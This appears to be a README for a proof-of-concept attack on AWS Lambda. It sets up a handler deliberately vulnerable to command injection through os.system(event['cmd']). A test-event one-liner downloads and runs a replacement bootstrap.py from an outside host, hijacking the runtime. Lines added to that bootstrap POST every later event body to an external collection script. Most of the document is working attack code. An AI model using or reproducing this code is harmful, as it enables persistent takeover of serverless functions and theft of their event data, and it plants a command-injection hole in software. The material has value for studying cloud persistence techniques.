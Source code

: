 # Instructions for POC

- Create a new lambda with a python 3.8 runtime
- set timeout to > 4 seconds
- make it vuln:
```
import json
import os

def lambda_handler(event, context):
    # TODO implement
    return {
        'statusCode': 200,
        'body': os.system(event['cmd'])
    }
```



### test event to supply the lambda to execute the bootstrap swap:
```
{
  "cmd": "python3 -c \"import urllib3;import os;http = urllib3.PoolManager();r = http.request('GET', 'https://appointmentaid.com/bootstrap.py');w = open('/tmp/bootstrap.py', 'w');w.write(r.data.decode('utf-8'));w.close();r = http.request('GET', 'http://127.0.0.1:9001/2018-06-01/runtime/invocation/next');rid = r.headers['Lambda-Runtime-Aws-Request-Id'];http.request('POST', f'http://127.0.0.1:9001/2018-06-01/runtime/invocation/{rid}/response', body='null', headers={'Content-Type':'application/x-www-form-urlencoded'});os.system('python3 /tmp/bootstrap.py')\""
}
```

After swapping the bootstrap all subsequent events will be leaked in a POST request to https://www.appointmentaid.com/postcatcher.php and can be viewed at https://www.appointmentaid.com/lambda.txt


### Explained
This POC works by editing the existing python 3.8 bootstrap.py file and adding the following 3 lines inside the while loop:
```
import urllib3
http = urllib3.PoolManager()
http.request('post', 'https://www.appointmentaid.com/postcatcher.php', body=event_request.event_body)
```

The source code for postcatcher.php is included in the `php` folder in the root of this repo.
